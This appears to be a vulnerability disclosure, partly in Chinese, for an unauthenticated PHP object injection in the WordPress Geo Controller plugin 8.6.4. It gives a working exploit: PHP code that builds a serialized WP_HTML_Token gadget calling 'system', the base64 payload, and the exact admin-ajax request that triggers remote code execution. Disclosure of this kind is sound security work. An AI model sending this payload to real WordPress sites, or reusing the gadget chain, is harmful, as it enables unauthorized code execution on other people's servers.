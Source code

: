 # WordPress Geo Controller Plugin  - PHP Object Injection         

environment：

-  wordpress 6.4.0
- Geo Controller 8.6.4 

The `cf-geoplugin\inc\classes\Shortcodes.php` file in the Geo Controller Plugin contains a `unserialize` function with a controllable parameter, potentially leading to a PHP object injection vulnerability.

```php
# ajax__shortcode_cache()
unserialize(urldecode(base64_decode(sanitize_text_field(CFGP_U::request_string('options')))));
```

The method is added to `wp_ajax`, leading to an unauthorized PHP Object Injection vulnerability.

```php
$this->add_action('wp_ajax_cf_geoplugin_shortcode_cache', 'ajax__shortcode_cache');
```

It seems like there isn't a proper PHP chain within the plugin itself. However, there might be a possibility of leveraging object injection in WordPress versions 6.4.0 to 6.4.1, potentially leading to remote code execution.

https://www.wordfence.com/blog/2023/12/psa-critical-pop-chain-allowing-remote-code-execution-patched-in-wordpress-6-4-2/

payload：

```php
<?php

class WP_HTML_Token
{
    public $bookmark_name;
    public $on_destroy;

    public function __construct($bookmark_name, $on_destroy)
    {
        $this->bookmark_name = $bookmark_name;
        $this->on_destroy = $on_destroy;
    }
}

echo base64_encode(serialize(new WP_HTML_Token("calc","system")));

# TzoxMzoiV1BfSFRNTF9Ub2tlbiI6Mjp7czoxMzoiYm9va21hcmtfbmFtZSI7czo0OiJjYWxjIjtzOjEwOiJvbl9kZXN0cm95IjtzOjY6InN5c3RlbSI7fQ==
```

构造如下请求：

```
/wp-admin/admin-ajax.php?action=cf_geoplugin_shortcode_cache&options=TzoxMzoiV1BfSFRNTF9Ub2tlbiI6Mjp7czoxMzoiYm9va21hcmtfbmFtZSI7czo0OiJjYWxjIjtzOjEwOiJvbl9kZXN0cm95IjtzOjY6InN5c3RlbSI7fQ==
```

![image-20231214130726758](https://gallery-1310215391.cos.ap-beijing.myqcloud.com/img/image-20231214130726758.png)
